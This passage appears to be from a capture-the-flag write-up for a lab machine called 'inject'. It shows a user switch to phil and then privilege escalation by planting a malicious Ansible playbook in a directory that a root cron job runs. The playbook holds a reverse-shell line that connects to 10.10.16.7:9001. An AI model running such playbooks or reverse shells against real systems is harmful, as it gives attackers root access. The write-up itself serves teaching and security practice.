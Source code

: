 We find `phil`'s password there.

And now we can `su phil`

```terminal
frank@inject:~$ su phil
Password:
phil@inject:/home/frank$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
phil@inject:/home/frank$
```

### Phil -> root

We see that user phil is part of a group called staff.

With the help of the `find / -group staff 2>/dev/null`command, we find that users on this group has write permission on the `/opt/automation/tasks` directory.

```terminal
drwxrwxr-x 2 root staff 4096 Dec 18 08:50 tasks
```

Inside the directory is a yaml file.

```yaml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

Running `pspy64` we find a cronjob that's executing the yaml files inside the tasks directory.

```terminal
2024/12/18 08:36:33 CMD: UID=0     PID=1      | /sbin/init auto automatic-ubiquity noprompt
2024/12/18 08:38:01 CMD: UID=0     PID=24673  | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml
2024/12/18 08:38:01 CMD: UID=0     PID=24671  | sleep 10
2024/12/18 08:38:01 CMD: UID=0     PID=24669  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml               
```

With this information, we can create a malicious yml file that sends us a reverse shell, and since root is the one running the cronjob, we will get a root shell.

A quick search on google I found a yaml command execution code and modified it to give us a reverse shell.

```yaml
---                                                                                                               
- name: shell                                                                                                  
  hosts: localhost
  become: yes

  tasks:
  - name: hack
    shell: "bash -c '/bin/bash -i >& /dev/tcp/10.10.16.7/9001 0>&1'"
```
